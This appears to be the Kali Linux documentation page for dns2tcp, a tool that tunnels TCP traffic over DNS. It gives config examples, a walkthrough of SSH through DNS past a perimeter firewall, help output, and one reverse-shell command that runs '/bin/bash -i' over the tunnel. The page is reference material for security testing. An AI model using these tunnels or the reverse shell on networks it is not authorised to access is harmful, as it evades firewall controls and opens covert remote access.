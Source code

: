 Tool Documentation
===============================================================================
*** Packages & Binaries ***
    * dns2tcp
          o dns2tcpc
          o dns2tcpd
===============================================================================
****** Tool Documentation: ******
***** dns2tcpd Usage Example *****
:~$ cat >>.dns2tcpdrc <<END
listen = 0.0.0.0
port = 53
user=nobody
chroot = /root/dns2tcp
pid_file = /var/run/dns2tcp.pid
domain = dns2tcp.kali.org
key = secretkey
resources = ssh:127.0.0.1:22
END

:~$ dns2tcpd -f .dns2tcpdrc
:~$

***** dns2tcpc Usage Example *****
:~$ cat >>.dns2tcprc <<END
domain = dns2tcp.kali.org
resource = ssh
local_port = 2139
key = secretkey
END

:~$ dns2tcpc -f .dns2tcprc
:~$ ssh root@localhost -p 2139 -D 8090
The authenticity of host '[localhost]:2139 ([127.0.0.1]:2139)' can't be
established.
ECDSA key fingerprint is aa:bb:1f:cc:f1:ab:7c:71:9b:62:37:8c:f1:60:2e:98.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[localhost]:2139' (ECDSA) to the list of known
hosts.
root@localhost's password:
Linux flw 3.12-kali1-amd64 #1 SMP Debian 3.12.6-2kali1 (2014-01-06) x86_64
Last login: Tue May  6 22:54:15 2014 from beast.fritz.box
:~$

dns2tcpc -k mykey -z dns2tcp.hsc.fr mydns

Ask the dns2tcp server to list available resources.

       ssh -o 'ProxyCommand dns2tcpc -r ssh -l - -z dns2tcp.hsc.fr -k mykey mydns' myserver

Use dns2tcp as a proxy command with ssh. We try to connect to the ssh resource with
the key 'mykey' and the DNS mydns.

       dns2tcpc -r socat-resource -e '/bin/bash -i' -k mykey -z dns2tcp.hsc.fr mydns

Use dns2tcp as a reverse shell, the remote shell will appear on the socat-resource.

       dns2tcpc -d 1 -f /dev/null -r ssl-tunnel -l 2000 -k mykey  -T KEY -z dns2tcp.hsc.fr mydns

Do not use the default configuration file, bind local port 2000 and forward all the
traffic on the remote ssl-tunnel resource, use the first debug level. Use KEY  type
DNS requests.

***** dns2tcpc Example Details *****
In this case we are going to tunnel some traffic from a client behind a
perimeter firewall to our own server. Since dns2tcp is using dns (asking for
TXT records within a (sub)domain) to archive the goal we need to create a NS
record for a new subdomain pointing to the address of our server.
dns2tcp.kali.org. IN NS lab.kali.org.
There is no need for a DNS server installation. But please keep in mind that
you probably added a new NS to a real DNS zone. And it might take a while until
the new subdomain is “active”.
In the next step (dns2tcpd Usage Example) we create a configuration file on our
server (lab.kali.org) and start the daemon. To make sure everything is working
well you should consider using the options “-F” (Run in foreground) and “-d 1”
(debugging) at the first start.
Now you can configure the host (dns2tcpc Usage Example) and run the client part
of the tool. The tunnel is established now and you can connect to your remote
box with ssh (ssh [email protected] -p 2139 -D 8090). Please keep in mind to
use the username of the remote box (lab.kali.org) because the connection goes
to port 2139 (-p 2139). The traffic to this port gets tunneled via DNS (because
the dns2tcp client is listening on this port) to your remote server (where your
dns2tcp server is waiting on port 53 for incoming connections). While
connecting to the remote box via ssh you have also created an additional
listener with your ssh command (-D 8090). This port can be used as SOCKS proxy
and the traffic will also be tunneld to your remote box.
===============================================================================

****** Packages and Binaries: ******
**** dns2tcp ****
dns2tcp is a set of tools to encapsulate a TCP session in DNS packets. This
type of encapsulation generates smaller packets than IP-over-DNS, improving
throughput. The client does not need root privileges.1
Installed size: 152 KB
How to install: sudo apt install dns2tcp
Dependencies:
    * init-system-helpers
    * libc6
    * lsb-base
** dns2tcpc **
A tunneling tool that encapsulate TCP traffic over DNS.

:~$ dns2tcpc -h
dns2tcpc: option requires an argument -- 'h'
dns2tcp v0.5.2 ( http://www.hsc.fr/ )
Usage : dns2tcpc [options] [server]
        -c              : enable compression
        -z <domain>     : domain to use (mandatory)
        -d <1|2|3>      : debug_level (1, 2 or 3)
        -r <resource>   : resource to access
        -k <key>        : pre-shared key
        -f <filename>   : configuration file
        -l <port|->     : local port to bind, '-' is for stdin (mandatory if resource
defined without program )
        -e <program>    : program to execute
        -t <delay>      : max DNS server's answer delay in seconds (default is 3)
        -T <TXT|KEY>    : DNS request type (default is TXT)
        server  : DNS server to use
        If no resources are specified, available resources will be printed
===============================================================================

** dns2tcpd **
A tunneling tool that encapsulate TCP traffic over DNS.
:~$ dns2tcpd --help
dns2tcpd: invalid option -- '-'
Usage : dns2tcpd [ -i IP ] [ -F ] [ -d debug_level ] [ -f config-file ] [ -
p pidfile ]
         -F : dns2tcpd will run in foreground
===============================================================================
Updated on: 2022-Aug-05
===============================================================================
